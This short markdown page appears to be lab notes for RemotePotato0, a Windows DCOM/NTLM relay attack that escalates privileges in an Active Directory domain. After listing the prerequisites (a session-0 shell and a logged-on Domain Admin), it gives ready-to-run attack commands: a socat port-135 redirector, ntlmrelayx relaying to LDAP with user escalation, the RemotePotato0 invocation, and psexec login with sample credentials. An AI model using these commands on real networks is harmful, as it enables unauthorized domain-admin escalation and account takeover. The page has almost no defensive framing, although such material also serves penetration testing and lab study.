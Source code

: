 # RemotePotato0 DCOM DCE RPC relay

### It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine

## Requirements

#### 1) a shell in session 0 (e.g. WinRm shell or SSH shell)

#### 2) a privileged user is logged on in the session 1 (e.g. a Domain Admin user)

## Github repo: https://github.com/antonioCoco/RemotePotato0/

## Steps

 - sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 (Terminal)

 - sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user (Terminal)

 - RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2 (Session 0)

 - psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135' (Terminal)
